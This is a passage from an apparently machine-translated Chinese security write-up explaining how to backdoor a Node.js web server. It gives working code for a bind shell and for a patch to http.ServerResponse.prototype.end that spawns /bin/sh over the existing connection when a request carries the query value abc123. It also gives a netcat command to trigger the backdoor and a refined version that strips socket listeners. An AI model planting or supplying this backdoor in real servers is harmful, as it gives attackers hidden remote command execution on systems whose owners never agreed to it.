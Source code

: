 现在我们准备好一切。 剩下的是启动shell。 在节点中这是相对直接的。



```
var cp = require('child_process')
var net = require('net')
net.createServer((socket) =&gt; `{`
    var sh = cp.spawn('/bin/sh')
    sh.stdout.pipe(socket)
    sh.stderr.pipe(socket)
    socket.pipe(sh.stdin)
`}`).listen(5001)
```

在合并两个段之后，最终代码如下所示。 注意我们如何通过重用已经建立的套接字来重定向结束函数以在节点内产生一个shell。



```
require('http').ServerResponse.prototype.end = (function (end) `{`
  return function () `{`
    if (this.socket._httpMessage.req.query.q === 'abc123') `{`
        var cp = require('child_process')
        var net = require('net')
        var sh = cp.spawn('/bin/sh')
        sh.stdout.pipe(this.socket)
        sh.stderr.pipe(this.socket)
        this.socket.pipe(sh.stdin)
    `}` else `{`
        end.apply(this, arguments)
    `}`
  `}`
`}`)(require('http').ServerResponse.prototype.end)
```

现在打开netcat到localhost 3000并键入以下请求



```
$ nc localhost 3000 GET /?q=abc123 HTTP/1.1 
ls -la
```

[![](https://p0.ssl.qhimg.com/t01ec22f280dd2bf130.jpg)](https://p0.ssl.qhimg.com/t01ec22f280dd2bf130.jpg)

什么？ 你得不到任何东西。你看，我们正在劫持一个现有的套接字，因此我们不是套接字的唯一保管人。 还有其他的事情可能响应那个套接字，所以我们需要确保我们照顾他们。 幸运的是，这是很容易实现与一点知识如何节点套接字工作。 最终的代码看起来像这样。



```
require('http').ServerResponse.prototype.end = (function (end) `{`
  return function () `{`
    if (this.socket._httpMessage.req.query.q === 'abc123') `{`
        ['close', 'connect', 'data', 'drain', 'end', 'error', 'lookup', 'timeout', ''].forEach(this.socket.removeAllListeners.bind(this.socket))
        var cp = require('child_process')
        var net = require('net')
        var sh = cp.spawn('/bin/sh')
        sh.stdout.pipe(this.socket)
        sh.stderr.pipe(this.socket)
        this.socket.pipe(sh.stdin)
    `}` else `{`
        end.apply(this, arguments)
    `}`
  `}`
`}`)(require('http').ServerResponse.prototype.end)
```

